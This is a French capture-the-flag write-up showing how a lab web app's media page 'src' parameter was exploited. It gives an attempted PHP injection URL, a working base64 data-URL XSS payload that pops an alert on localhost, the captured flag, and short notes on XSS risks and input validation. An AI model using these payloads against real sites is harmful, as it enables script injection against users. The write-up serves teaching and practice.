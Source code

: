 on remarque, en inspectant, qu'une des images du main container est un lien vers la page media
egalement que si on modifie la source dans l'url la page indique Wrong answer

avec src=nsa
data=http://10.0.2.15/images/nsa_prism.jpg

avec src=eagle
data=eagle

on peut donc imaginer que la value data est directement lue par le back on essais donc dy injecter du php
http://localhost:8080/index.php?page=media&src=%3C?php%20echo(%27malware%27);%20?%3E

Wrong answer

About Base64
Base64 is a group of similar binary-to-text encoding schemes that represent binary data in an ASCII string format by translating it into a radix-64 representation. The term Base64 originates from a specific MIME content transfer encoding. Each base64 digit represents exactly 6 bits of data.

URL applications
Base64 encoding can be helpful when fairly lengthy identifying information is used in an HTTP environment. For example, a database persistence framework for Java objects might use Base64 encoding to encode a relatively large unique id (generally 128-bit UUIDs) into a string for use as an HTTP parameter in HTTP forms or HTTP GET URLs. Also, many applications need to encode binary data in a way that is convenient for inclusion in URLs, including in hidden web form fields, and Base64 is a convenient encoding to render them in a compact way.

Source: Wikipedia

Data URLs, URLs prefixed with the data: scheme, allow content creators to embed small files inline in documents. They were formerly known as "data URIs" until that name was retired by the WHATWG.

data:[<mediatype>][;base64],<data>

on essais donc d'injecter du php en base 64 dans l'url :
ici j'ai convertit <script>alert("test");<script/>
en base64 via https://www.base64decode.org/

http://localhost:8080/index.php?page=media&src=data:text/html;base64,PHNjcmlwdD5hbGVydCgidGVzdCIpOzxzY3JpcHQvPg==

THE FLAG IS : 928D819FC19405AE09921A2B71227BD9ABA106F9D2D37AC412E9E5A750F1506D


DANGER :
XSS où « Cross-Site Scripting » est l’une des failles les plus répandues dans les sites Web dynamiques. Elle fait partie de la famille des attaques par injection.

une attaque par XSS se produit lorsqu’un utilisateur mal intentionné envoie un code nuisible qui sera exécuté par le navigateur ou l’interpréteur de la victime (HTML, XML, Flash, JavaScript, CSS, JSON, etc.) en utilisant des formulaires ou directement l’URL. L’exploitation de cette faille permettrait notamment d’exécuter des scripts douteux (dans le cas d’une injection JavaScript), de récupérer les informations récoltées sur un serveur distant (cookies, contenu de la page, etc.), de rediriger la victime, de défigurer la structure de la page, etc.

PROTECTON :
ne jamais trust les donnees recues d'un utilisateur. parse les URLs si on doit les utiliser (regex, escapeString etc)
